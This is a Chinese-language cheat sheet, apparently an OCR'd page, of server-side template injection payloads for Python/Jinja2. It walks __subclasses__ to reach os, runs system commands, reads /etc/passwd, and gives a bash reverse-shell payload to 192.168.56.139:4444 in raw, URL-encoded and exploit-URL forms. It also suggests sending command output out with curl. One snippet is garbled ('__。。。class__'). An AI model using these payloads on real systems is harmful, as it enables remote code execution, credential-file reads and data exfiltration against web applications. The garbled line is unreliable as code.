```
''.__class__.__mro__[2].__subclasses__()[91].get_data(0,"<file_To_Read>")
```
### 3.命令执行
首先通过脚本找到包含os模块的类

```
num = 0
for item in ''.__class__.__mro__[1].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print (num,item)
         num+=1
    except:
        print ('-')
        num+=1
```
假设输出为x编号的类，则可以构造
```
''.__class__.__mro__[1].__subclasses__()[x].__init__.__globals__['os'].system('ls')
```
命令执行的结果如果不能直接看到，可以考虑通过curl工具发送到自己的VPS，或者使用CEYE平台。

执行脚本发现，包含os模块的类：
```
<class 'site._Printer'>
<class 'site.Quitter'>
```
其他函数的利用同理。
### 4.基础pyload:

```
# 编码前：
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.56.139/4444 0>&1"')}}
 
# 编码后：
%7B%25%20import%20os%20%25%7D%7B%7Bos.system('bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.139%2F4444%200%3E%261%22')%7D%7D

# 利用
http://192.168.3.225:9999/?name=%7B%25%20import%20os%20%25%7D%7B%7Bos.system('bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.139%2F4444%200%3E%261%22')%7D%7D
```
```
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
```